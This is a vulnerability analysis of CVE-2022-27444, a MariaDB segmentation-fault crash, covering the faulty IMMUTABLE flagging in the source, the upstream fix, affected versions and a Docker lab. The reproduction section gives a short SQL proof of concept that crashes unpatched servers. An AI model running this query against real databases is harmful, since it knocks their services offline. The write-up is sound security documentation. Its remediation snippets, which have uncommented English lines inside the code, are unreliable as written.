



# CVE-2022-27444 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **Constant Value (IMMUTABLE):** In database systems like MariaDB, it refers to an expression or value that never changes during SQL query execution and whose result is fixed. For example, performing `IS NULL` judgments on NOT NULL columns, constant literals, or simple operations that do not depend on table data will all be recognized as IMMUTABLE by the database optimizer. During optimization and execution, the IMMUTABLE expression can be used for early computation, simplifying queries, avoiding repeated evaluations, and in some internal processes, special markings are used to skip unnecessary processing.
- **Cleanup:** In database systems like MariaDB, expression trees are used to represent and compute various complex conditions in SQL statements. Each node corresponds to a specific operation or value, such as a field, function, or subquery. After the query is executed, the system cleans up these expression trees, recursively releasing the memory resources occupied by each node. This process requires that each node's lifecycle management be correct; otherwise, if some nodes are released early while the parent node still retains references to them, it can easily lead to suspended pointers, undefined behavior, or even process crashes.

## Vulnerability Mechanism
Includes segment errors through the component sql/item_subselect.cc.

When optimizing SQL queries, MariaDB only marks the immutable expression nodes themselves, without recursively marking all their child nodes. This causes the parent node to be skipped during cleanup while the child node is processed, resulting in inconsistent parent-child states. This way, in subsequent execution, if the parent node accesses the cleaned child node data, it may trigger memory errors and ultimately cause the database process to crash.

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code reveals the same vulnerability points as CVE-2022-27446:

In the SQL \item _cmpfunc.cc file, line 7633, `create_pushable_equalities` is used to decompose a multi-nomial equality (such as `a = b = c = 5`) into a series of simple binary equivalence conditions that can be "pushable" (such as `a=5`  `b=a`, `c=a`), and add them to a list.

The condition in line 7655 is used to handle constant relationships. If there is a constant in the group of equality (`right_item` is not NULL), the function will prioritize generating an equation between the benchmark term and the constant. In line 7668, if a constant term is not cloned but is directly reused, it is marked as "immutable" to prevent accidental modification or release.

 `right_item` If it is an expression (such as a subquery `NOT EXISTS (SELECT 1)`), it needs to be marked as IMMUTABLE (meaning constant, unaffected by data). However, **the original code only sets the IMMUTABLE tag for the `right_item` itself** (`right_item->set_extraction_flag(MARKER_IMMUTABLE)`). However, **it does not recur to its child nodes (such as `Item_subselect(SELECT 1)`) with the IMMUTABLE tag**. MariaDB's `cleanup` process skips nodes flagged by IMMUTABLE, but its child nodes '`Item_subselect(SELECT 1)`' without IMMUTABLE tags are still cleaned up. When the parent node attempts to access certain member variables of the child node, undefined behavior or memory out-of-bounds occurs.

```cpp
// item_cmpfunc.cc file, 7633 lines
bool Item_equal::create_pushable_equalities(THD *thd, List<Item> *equalities, Pushdown_checker checker, uchar *arg, bool clone_const)
{
  Item *item;
  Item *left_item= NULL;
  Item *right_item = get_const();
  Item_equal_fields_iterator it(*this);
    
  while ((item=it++)) // Initialize and find the "Benchmark" left item (left_item)
  {
    left_item= item;
    if (checker && !((item->*checker) (arg)))
      continue;
    break;
  }

  if (!left_item) // If you can't find a single item that can be pushed down, you just return directly
    return false;

  if (right_item) // 7655 lines Handling constant relationships *************
  {
    Item_func_eq *eq= 0;
      // Clone the benchmark and constant terms to create new equation objects
    Item *left_item_clone= left_item->build_clone(thd);
    Item *right_item_clone= !clone_const ?
                            right_item : right_item->build_clone(thd);
    if (!left_item_clone || !right_item_clone)
      return true;
      // Create a new binary equation object, such as a = 5
    eq= new (thd->mem_root) Item_func_eq(thd,
                                         left_item_clone,
                                         right_item_clone);
      // Add the new equation to the output list equalities
    if (!eq ||  equalities->push_back(eq, thd->mem_root))
      return true;
/****** 7668 row ********** Should we clone constants? *********** Vulnerability points ***********************/
    if (!clone_const)
      right_item->set_extraction_flag(MARKER_IMMUTABLE);
  }

  while ((item=it++)) 
  {
      // Generate equations for other members and benchmark terms ...
  }
  return false;
}
```

## Remediation
1. Add a function in the [`‎sql/item.h`](https://github.com/MariaDB/server/commit/807945f2eb5fa22e6f233cc17b85a2e141efe2c8#diff-01d39f42753f725c1e5bc774574894f7f69f9e2d0590ed5631644d000a5d328c) file to set an external integer flag to the current object, which works with the expression tree's walk, and then The IMMUTABLE flag is recursively applied to all nodes of the expression tree.

   ```cpp
   virtual bool set_extraction_flag_processor(void *arg)
   {
       set_extraction_flag calling the current node means setting the corresponding flag for it
       set_extraction_flag(*(int*)arg);
       return 0;
   }
   ```

2. In the [`sql/item_cmpfunc.cc`](https://github.com/MariaDB/server/commit/807945f2eb5fa22e6f233cc17b85a2e141efe2c8#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d) file, for the `right_item` expression tree (which may have multiple child nodes), recursively call from the root node to all child nodes `set_extraction_flag_processor`, set all IMMUTABLE_FL marks.

   ```cpp
   if (!clone_const) {
       int new_flag= IMMUTABLE_FL;
       Recurrently, traverse every node in the right_item expression tree
       right_item->walk(&Item::set_extraction_flag_processor, false, (void*)&new_flag); 
   }
   ```

## Affected Versions
**Affected version:** MariaDB:

- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator is root, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-27444-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. After running the PoC file CVE-2022-27444-PoC.sql, you can see the connection is disconnected.

```sql
source CVE-2022-27444-PoC.sql
```



4. Check the MariaDB container crash log. You can see `[ERROR] mysqld got signal 11 ;`, which is a critical error triggered by a segment error, and the error occurred in the item_subselect file.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (a int);

-- Generate a record from each row in table t1
SELECT 1 FROM t1 
	GROUP BY a 
		-- HAVING is actually equivalent to HAVING a = 0
		HAVING a = 
			-- SELECT 1 always holds, and EXISTS (SELECT 1) is always true
			-- NOT EXISTS (SELECT 1) is always false, i.e., 0
			(NOT EXISTS (SELECT 1));
```

MariaDB parses `a = (NOT EXISTS (SELECT 1))` into a **equation expression tree**: the left side is `a` (field item), the right side is `NOT EXISTS (SELECT 1)` (constant expression, value 0). During the optimization phase, MariaDB's `Item_equal::create_pushable_equalities()` function **pushes down the equation for an expression like HAVING that `a = const`, attempting to break it down into a binary relationship that facilitates optimization:

```sql
      =
    /   \
   a   NOT
         |
      EXISTS
         |
      (SELECT 1)
```

Each node in the tree is an internal "Item" object in MariaDB, for example:

-  `=`         → Item_func_eq
-  `NOT`       → Item_func_not
-  `EXISTS`    → Item_subselect
-  `a`         → Item_field
- `SELECT 1` → Item_subselect Plug-in select

Since the right side is a "constant expression," the optimizer will treat it directly as an immutable constant. However, only the `right_item` (i.e., the entire node `NOT EXISTS (SELECT 1)`) is marked with the IMMUTABLE flag, **without recursive marker child nodes** (such as `Item_func_not`, `Item_subselect`, etc.). In subsequent cleanup phases, the parent node is protected, but the child node is not; after being released, the parent node accesses it, causing **segment errors**.

## References
[NVD - CVE-2022-27444](https://nvd.nist.gov/vuln/detail/CVE-2022-27444)

[[MDEV-28080\] Crash when using HAVING with NOT EXIST predicate in an equality - Jira](https://jira.mariadb.org/browse/MDEV-28080)

[MDEV-28080 Crash when using HAVING with NOT EXIST predicate in an equ… · MariaDB/server@c822836](https://github.com/MariaDB/server/commit/c8228369f6dad5cfd17c5a9d9ea1c5c3ecd30fe7)

[MDEV-26402: A SEGV in Item_field::used_tables/update_depend_map_for_o… · MariaDB/server@807945f](https://github.com/MariaDB/server/commit/807945f2eb5fa22e6f233cc17b85a2e141efe2c8#diff-1d0eeab9c76ca431af1f61a23ffd0cb93f4a38709e16005c0aa636ec9a6c313d)
